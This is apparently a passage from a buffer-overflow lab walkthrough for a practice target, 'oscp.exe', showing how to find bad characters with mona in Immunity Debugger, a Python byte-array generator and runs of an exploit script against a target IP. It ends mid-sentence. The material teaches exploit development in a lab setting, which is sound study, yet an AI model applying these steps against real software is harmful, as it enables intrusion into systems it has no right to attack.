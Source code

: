 First generate a bytearray with `mona`:

```
!mona bytearray -b "\x00"
```

This will generate a bytearray excluding an obvious bad char `\x00`. Let's generate one for us also, but this time, let's use a python script for that, `bytearray.py`:

```python3
#!/usr/bin/env python3

import sys

def generate_bytearray(excluded_bytes):
    excluded = bytes.fromhex(excluded_bytes.replace("\\x", "").lower())
    print("".join(f"\\x{x:02x}" for x in range(256) if x not in excluded))

if __name__ == "__main__":
    excluded_bytes = sys.argv[1] if len(sys.argv) > 1 else ""
    generate_bytearray(excluded_bytes)
```

Now let's generate a bytearray just like we did with `mona` and save it to our `payload.txt`:

```
python3 bytearray.py "\x00" > payload.txt
```

Now let's restart `oscp.exe` in Immunity Debugger and run exploit.py script with this new payload:

```
python3 exploit.py --ip $targ3t --prefix 2 --retn BBBB --offset 634 --payload payload.txt
```

Now that the buffer is sent, let's copy the address that ESP register is pointing to and use it in the following `mona` command:

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 019EFA30
```

It appears the bad chars identified are `\x00\x23\x24\x3c\x3d\x83\x84\xba\xbb`. Let's update our byte arrays in both places and re-run the commands:

```
!mona bytearray -b "\x00\x23"
```

```
python3 bytearray.py "\x00\x23" > payload.txt
python3 exploit.py --ip $targ3t --prefix 2 --payload payload.txt
```

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 018DFA30
```

This time, `\x24` didn't show up among bad chars, which means we don't have to test for it anymore! So we do this sequence again, but for `\x00\x23\x3c` and see that `\x3d` didn't show up this time either, so we can move to `\x83` and test for `\x00\x23\x3c\x83` and so on. At the end the bad chars we will end up with are:
